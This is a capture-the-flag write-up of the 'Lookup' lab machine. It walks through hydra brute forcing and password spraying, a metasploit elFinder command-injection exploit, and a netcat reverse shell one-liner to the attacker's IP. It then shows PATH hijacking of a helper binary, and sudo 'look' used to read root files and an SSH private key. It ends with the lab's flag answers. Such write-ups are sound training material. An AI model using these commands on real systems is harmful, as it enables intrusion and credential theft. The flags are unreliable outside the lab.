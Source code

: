 # Lookup
(flags are at the end of the writeup)

### Lookup
Initial scan shows port 22 and 80 open: 

    # Nmap 7.94SVN scan initiated Wed Nov 27 17:24:12 2024 as: /usr/lib/nmap/nmap --privileged -p22,80 -sC -sV -oN scan 10.10.65.102
    Nmap scan report for lookup.thm (10.10.65.102)
    Host is up (0.061s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
    |   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
    |_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-title: Login Page
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

If I try to access the webpage, I get redirected to `lookup.thm`:<br />
![image](https://github.com/user-attachments/assets/084acc68-fc20-4967-b497-99d031da7a78)<br />
So add the following line `10.10.65.102 lookup.thm` to the `/etc/hosts` file. It seems like a basic login page. If I try to access with basic credentials such as `admin:password`, I get the following response:<br />
![image](https://github.com/user-attachments/assets/c71eabe3-d2be-4cca-8991-91672308e8a7)<br />
Which is a weird way of handling errors. I tried `sqlmap` but nothing. I have to dig somewhere else.<br />
Next thing I try is to enumerate directories using gobuster: `gobuster dir -u lookup.thm -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt` but nothing was found. <br />
Now I try to enumerate subdomains. I found the subdomain `www.lookup.thm` but it's the same as `lookup.thm` so nothing there. Next, I noticed that if I tried logging with user `admin`, I get the reponse "Wrong password". But if I try to log in with, for example, "john", I get "Wrong username or password." This means that admin should be a valid user. So I try to login into the admin's account using bruteforce with hdyra: `hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password"` and it finds something!<br />
![image](https://github.com/user-attachments/assets/d3a9e3c4-b445-4844-bbc6-d38ed1491c6b)<br />
Login fails.. but something strange happens, look:<br />
![image](https://github.com/user-attachments/assets/cec66cdd-cebc-4e4f-8685-5639592ea325)<br />
If I use credentials `admin:password123`, the server responds with "Wrong username or password", which is incoherent with the fact that admin is a valid user. This is really strange and I'm not sure why it behaves like that. But my guess is that it might do this for some server misconfiguration which shows this message if the password is a valid password! So the server might have this weird behaviour:

    1) if username and password are correct --> successful login
    2) if username is incorrect --> wrong username or password
    3) if username is correct but password doesn't exist on the DB --> wrong password
    4) if username is correct and password exists on the DB, but they don't match --> wrong username or password

I know, it's strange, but I don't have any other explanation for that. So since `password123` might be valid, let's try a password spraying attack! I'll bruteforce usernames using this password with hydra: <br />
![image](https://github.com/user-attachments/assets/b9781d2c-324f-47ca-b71d-aee99e19416c)<br />
I found a valid set of credentials! `jose:password123`. If I try to log in, I get redirected to `files.lookup.thm`, so let's add it on the /etc/hosts file.<br />
![image](https://github.com/user-attachments/assets/ff5d452a-3f5b-4b33-b7c2-994bad37727b)<br />
ElFinder is an opensource file management software that wants to offer a desktop-like experience. The version is `2.1.47`. Searching online, I found that this version is vulnerable to command injection, and the exploit is available on metasploit! So open `msfconsole` and run the exploit with the following commands:

    use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
    set lhost YOUR_IP
    set rhosts files.lookup.thm
    run

And it should open a meterpreter session. Now, I can't use metasploit, so I used the `shell` command to drop to a system shell, and then opened a reverse shell on another terminal because I really don't know how to use meterpreter very well, I need to do a tutorial. For the reverse shell I opened a netcat listener on my machine and from the dropped shell I run `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.90.188 5555 >/tmp/f`.
First thing I notice: the user `think` has the user flag, and inside his home directory I see a `.passwords` file that I can't read. So my guess is that I need to find a way to read that file. <br />
Using linpeas on the target system, I found an interesting binary that might be exploited:<br />
![image](https://github.com/user-attachments/assets/883cfbee-381e-4cee-953c-747b15f65b58)<br />
This is how it behaves: <br />
![image](https://github.com/user-attachments/assets/5122c223-5870-418f-bfa3-8e5f482aa70d)<br />
So it runs the `id` command to find out the user, and then looks for `/home/%user%/.passwords`. I think that my goal is to somehow fool this binary into believing that I'm actually the user `think`.<br /><br />
I decided to analyze this binary using IDA. Here's the main structure: <br />
![image](https://github.com/user-attachments/assets/20a4cbee-8f1d-47d6-882d-74d6eac5f44a)<br />
I'm used to work with the CDECL or STDCALL calling conventions from university, because we only analyzed 32 bit windows executables. This is the first time I'm trying to analyze an ELF file, but it seems very similar. The main diffence I need to know is that the arguments of functions are not pushed on the stack, but are stored on registers. Specifically `rdi`, `rsi`, `rdx` and `rcx`.<br /><br />
From this first block we can see that the binary is calling `popen` with `id` as parameter, so it wants to execute the `id` system command. <br />
This is another interesting block: <br />
![image](https://github.com/user-attachments/assets/7657b367-a033-4068-bd89-6c77f12c19f8)<br />
The binary takes the stdoutput of the `id` command, and then ignores the user-ID (the integer) and only considers the username. Here "uid=%u(%[^)])" is a paramenter of `fscanf` which specifies to ignore the UID, and only take the string that is inside the first two parenthesis. For example, if I now run `id`:<br />
![image](https://github.com/user-attachments/assets/913cb855-f12b-4eb4-aa56-401d2b9031e9)<br />
This binary will only consider the string underlined in red, which is `www-data`.<br />
At this point it tries to read the .passwords file, just like I guessed earlier:<br />
![image](https://github.com/user-attachments/assets/c9b61b17-9bc3-4016-a479-07e23c67c7b0)<br />
So I think I know where the vunlnerability lies. The binary is calling the `id` command, but not `/usr/bin/id` or whatever; the path is relative, not absolute. This means that I can create a custom `id` command on any directory, for example /tmp/, and then change the `PATH` environment variable to search for binaries inside /tmp/ first. So let's try it. I created the custom `id` command inside /tmp/, and it echoes a string on stdoutput, built to fool the `pwm` binary that I'm actually the user `think`. The code can be found in this folder in the file `fake_id`. Remember to call it `id` and to make it executable with `chmod +x id`. Now we want to change the PATH environment variable: run `export PATH=/tmp:$PATH`. Now if I run `id`:<br />
![image](https://github.com/user-attachments/assets/6cbecb52-7293-410e-8376-a33ac0de5a40)<br />
It executes my `fake_id`. The setup is ready, let's run the vulnerable binary: <br/ >
![image](https://github.com/user-attachments/assets/1c753f57-ae4f-4d84-a83c-e1c1700bf7ba)<br />
It worked! We have a list of passwords! I will now copy this wordlists in a file, and then will use it to bruteforce an ssh login as the user `think`. The command is `hydra -l think -P passwords ssh://10.10.124.210`. And the credentials are `think:josemario.AKA(think)`.<br />
Time to become root. If I run `sudo -l` and prompt the password, I can see that I have sudo privileges on the following binary: <br />
![image](https://github.com/user-attachments/assets/ef14348a-3b6d-4978-b727-99cbcc82607f)<br />
I didn't know this binary. But apparently is a well known binary that will show you all the words (taken from a dictionary in the file system) that start with the input that you provide. I found on [GTFObins](https://gtfobins.github.io/gtfobins/look/#sudo) a way to exploit it to read any files we want, so I used it to read the root flag: <br />
![image](https://github.com/user-attachments/assets/1a95beda-001c-4c3f-9497-8a209979f0ad)<br />
If I wanted to used it to become root, one possible way is to read the private rsa key with `sudo /usr/bin/look '' /root/.ssh/id_rsa`, and then use it to login with ssh. Have a nice rest of your day :)

- What is the user flag? `38375fb4dd8baa2b2039ac03d92b820e`
- What is the root flag? `5a285a9f257e45c68bb6c9f9f57d18e8`
